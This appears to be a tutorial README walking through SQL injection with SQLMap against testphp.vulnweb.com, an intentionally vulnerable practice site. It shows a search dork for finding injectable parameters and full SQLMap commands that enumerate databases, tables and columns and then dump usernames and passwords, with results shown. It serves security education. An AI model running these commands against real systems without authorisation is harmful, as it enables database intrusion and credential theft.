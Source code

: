 # **SQLMap Injection: Automating SQL Injection Detection and Exploitation**

<details>
<summary><strong>SQL Injection</strong></summary>
SQL injection is a security vulnerability found in web applications that allow attackers to interfere with the queries that an application makes to its database. It arises when user inputs are unsafely processed and concatenated into SQL queries, enabling attackers to manipulate the intended query structure. Through SQL injection, attackers can execute unauthorized SQL commands, access sensitive data, modify data, or even delete entire databases.When exploited, SQL injection can have severe consequences, compromising the confidentiality, integrity, and availability of data. Attackers can bypass authentication, extract sensitive information such as usernames, passwords, or credit card details, manipulate data, and potentially cause a complete system compromise.
</details>

<details>
<summary><strong>SQLMap</strong></summary>
SQLMap is a powerful open-source penetration testing tool designed to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. It assists security professionals and ethical hackers in identifying and leveraging SQL injection flaws by automating the process of testing and exploiting potential vulnerabilities. SQLMap is a pre-installed tool in Kali Linux, typically available in the system; if not present, it can be installed using commands:  
  
```bash
sudo apt-get install sqlmap
```
</details>

## Vulnweb Overview

Vulnweb.com hosts intentionally vulnerable web applications that facilitate understanding programming and configuration errors leading to security breaches. It serves as a practical platform for testing security tools like Acunetix or performing manual penetration testing for educational purposes. The site encompasses various applications intentionally designed with vulnerabilities like SQL Injection, Cross-site Scripting (XSS), Cross-site Request Forgery (CSRF), among others.

### Websites under Vulnweb.com
-----------------------------------------------------------------------------------------
| Name           | URL                              | Technologies                      |
|----------------|----------------------------------|-----------------------------------|
| SecurityTweets | http://testhtml5.vulnweb.com     | nginx, Python, Flask, CouchDB     |
| Acuart         | http://testphp.vulnweb.com       | Apache, PHP, MySQL                |
| Acuforum       | http://testasp.vulnweb.com       | IIS, ASP, Microsoft SQL Server    |
| Acublog        | http://testaspnet.vulnweb.com    | IIS, ASP.NET, Microsoft SQL Server| 
| REST API       | http://rest.vulnweb.com/         | Apache, PHP, MySQL                | 
-----------------------------------------------------------------------------------------
### Using Acuart for SQL Injection

Acuart (http://testphp.vulnweb.com) is an intentionally vulnerable web application under Vulnweb.com, utilizing Apache, PHP, and MySQL technologies. So, for SQL injection,this can be use as testing ground.

## 1. SQLMap Basic Parameter 
-------------------------------------------------------------------------------------------------------------------------------
| Parameter    | Description                                                                                                  |
|--------------|--------------------------------------------------------------------------------------------------------------|
| `-u`         | Target URL or web application where the SQL injection attack will be performed.                              |
| `--dbs`      | Command to fetch and display available databases present on the target server.                               |
| `-D`         | Specifies the name of the database to be targeted for enumeration or exploitation.                           |
| `--tables`   | Retrieves and displays the list of tables within a specified database.                                       |
| `-T`         | Specifies the name of the table to perform actions such as data retrieval or exploitation.                   |
| `--columns`  | Fetches and lists the columns available within a specified table.                                            |
| `-C`         | Specifies the column name(s) from which data needs to be retrieved or exploited.                             |
| `--dump`     | Command to extract and display the content of the specified column(s) from a table.                          |
-------------------------------------------------------------------------------------------------------------------------------
## 2. Identifying Vulnerable Parameters
The first step in conducting SQL injection involves identifying vulnerable parameters within a web application.SQL injection vulnerabilities can be discover by testing the URL parameter `php?id=` to test for potential injection points.

```plaintext
site:http://testphp.vulnweb.com/ php?id=
```

When performing a search with the query `site:http://testphp.vulnweb.com/ php?id=` you were directed to a specific page on the website `http://testphp.vulnweb.com`. The URL you encountered was `http://testphp.vulnweb.com/artists.php?artist=1` .

This URL indicates that you were redirected to a page named artists.php on the website. Within the URL, the parameter artist=1 is present. This parameter (artist) is one of the points within the website that is potential vulnerable for SQL injection vulnerabilities.

## 3. SQLMap Database Enumeration
After identifying the potentially vulnerable parameter (artist=1) , proceed to use SQLMap, a tool for automating SQL injection detection and exploitation.The command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs` was executed. This command instructs SQLMap to target the URL and perform a database enumeration `--dbs`, seeking to retrieve available database names from the targeted website.The result showed the enumeration of two available databases:

- `acuart`<br>
- `information_schema`<br>

These are the databases detected by SQLMap on the targeted website.

## 4. SQLMap Database Tables Enumeration
Executing the command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables` aimed at discovering tables within the ***acuart*** database resulted in the following tables:

-------------
| 8 tables  |
|-----------|
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
-------------

This enumeration identified a total of 8 tables within the ***acuart*** database on the targeted website.

## 5. SQLMap Column Information
Following the database and table enumeration, the SQLMap command `sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns` was executed. This command was intended to gather information about columns within the users table of the acuart database.
The result provided details about the columns present within the users table:


---------------------------
| Column   | Type         |
|----------|--------------|
| name     | varchar(100) |
| address  | mediumtext   |
| cart     | varchar(100) |
| cc       | varchar(100) |
| email    | varchar(100) |
| pass     | varchar(100) |
| phone    | varchar(100) |
| uname    | varchar(100) |
---------------------------

This output signifies the column names and their respective data types within the users table in the ***acuart*** database.


## 6. SQLMap Data Retrieval
The SQLMap commands were employed to extract information from the username and password columns in the ***users*** table.
### Retrieval of Username (**uname**):

```bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname --dump
```
Upon executing the command to retrieve the ***uname*** column, and the result show that the username stored in the database is `test`.

### Retrieval of Password (**pass**):

``` bash
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump
```
Similarly, when the command targeted the ***pass*** column, it show that password stored in the database is also `test`.

Both the `uname` (username) and `pass` (password) columns retrieved the value `test`, suggesting that these credentials as both username and password By leveraging the SQLMap tool to perform SQL injection on the website, we successfully retrieved the username and password. This indicates that `test` can serve as both the username and password for logging into the website using these credentials.

